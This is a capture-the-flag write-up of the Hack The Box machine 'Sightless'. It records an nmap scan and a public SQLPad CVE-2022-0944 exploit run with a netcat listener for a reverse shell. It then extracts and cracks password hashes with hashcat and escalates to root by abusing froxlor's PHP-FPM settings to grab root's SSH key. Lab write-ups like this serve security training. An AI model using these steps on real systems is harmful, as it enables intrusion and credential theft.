 ```yaml
---
title: "HTB Seasonal: Sightless"
author: "v3l1d"
date: "2024-10-23"
hiddenFromHomePage: true
password: "insaneclownposse"
---
```



![](attachment/3c53323d2941b4f7ea6cae026cd9a5fe.jpg)

**Port Scanning**

```shell
# Nmap 7.94SVN scan initiated Sat Oct 19 07:30:38 2024 as: nmap -sC -sV -A -T4 -o port_scan 10.10.11.32
Nmap scan report for 10.10.11.32
Host is up (0.055s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/19%Time=6713986B%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x2
SF:0Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 19 07:31:50 2024 -- 1 IP address (1 host up) scanned in 72.13 seconds

```

On port 80 you can find:
![](attachment/8db1342a35138b47d996fa54bd247351.png)

Go trough SQLPad pushing on start now and you'll be redirected to SQLPAD console and you can fetch SQLPad version:

![](attachment/9b1808231436cb591e9d9f85527fdd63.png)

**Version 6.10.0 identified, let's try find out something about:

![](attachment/2bf35d48995bbaeef6b26b37d2d20de1.png)

URL: https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944/tree/main

Let's clone the repository and try to run the exploit, while listening on a wished port from another terminal:

```shell
┌──(kali㉿kali)-[~/HTB/Sightless/sqlpad-rce-exploit-CVE-2022-0944]
└─$ python3 exploit.py http://sqlpad.sightless.htb 10.10.14.113 9091
---------------------------------------------------------------------
┌──(kali㉿kali)-[~/HTB/Sightless]
└─$ nc -lnvp 9091
listening on [any] 9091 ...
```

And got the shell:


![](attachment/fe342ce104a9a7cfb82690372af1f7f2.png)

There's a file sqlpad.sqlite:
![](attachment/9ee6825e92c38020c4d8b7f7fbb9f070.png)

In this file are present some interesting parts:

```shell
admin@sightless.htbadmin$2a$10$cjbITibC.********.
����1john@sightless.htb3        admin@sightless.htb
```

Meanwhile try to run a linpeas on sqlpad machine:
![](attachment/cb5e7e14d62ecb6a8111c1d31d0440bd.png)

![](attachment/a0f88f95ba5694f4e5d41dc034b8ce87.png)

There's an hash for user **micheal** in passwd file:

```shell
michael:$6$mG3Cp2VPGY.********:19860:0:99999:7::
```

Try to crack it with hashcat:

```shell
┌──(kali㉿kali)-[~/HTB/Sightless]
└─$ # Example command for Hashcat
hashcat -m 1800 -a 0 -o cracked_micheal_hash.txt micheal_user_hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
......
Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

Cracking performance lower than expected?                 

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa....L2IJD/
Time.Started.....: Sat Oct 19 08:58:04 2024 (43 secs)
Time.Estimated...: Sat Oct 19 08:58:47 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1344 H/s (8.77ms) @ Accel:64 Loops:1024 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 58496/14344384 (0.41%)
Rejected.........: 0/58496 (0.00%)
Restore.Point....: 58432/14344384 (0.41%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4096-5000
Candidate.Engine.: Device Generator
Candidates.#1....: jhoselin -> iloverhys
Hardware.Mon.#1..: Util: 89%

Started: Sat Oct 19 08:58:02 2024
Stopped: Sat Oct 19 08:58:49 2024

┌──(kali㉿kali)-[~/HTB/Sightless]
└─$ cat cracked_micheal_hash.txt 
$6$mG3Cp2VPGY.********:********


```

Try ssh into **michael**:

![](attachment/e86b9c94c5913aea4b70e9b7e3fb03cc.png)

```shell
userflag:9dc449a3********
```

By analyzing services running on port:

![](attachment/c6a62ceea6e4a4ba4721657b76a164e5.png)

During ports forwarding trough SSH i found that there's froxlor running on 8080, but isn't reachable due the missing of it's domain name. Inspecting other ports i found that port 40975 is the port of an available chrome debugger:

![](attachment/91d6ba2807b9fbb33ce0dc23bd8ee157.png)

![](attachment/70fff9de0a46ccc3364d2458727d946c.png)

```shell
admin:F********
```


![](attachment/46aef148daacdeee888551a751e330d5.png)

![](attachment/82f88746687d4741f0f013bf84f1f829.png)

After saving the PHPFM configuration disable and enable this by settings panel after querying 
`http://127.0.0.1:8080/admin_settings.php?start=phpfpm`

Now redo this procedure with the chmod command on id_rsa file just copied:

```shell
chmod 644 /tmp/id_rsa
```

![](attachment/51da7e56b9548e78bc8115eeb77b66b8.png)

After a bit the command will be executed and you will be able to use id_rsa to login into root's ssh:

![](attachment/b21470aaf193edff2e229c3637135c2c.png)

```shell
rootflag: 7a2a1b4afb4********
```
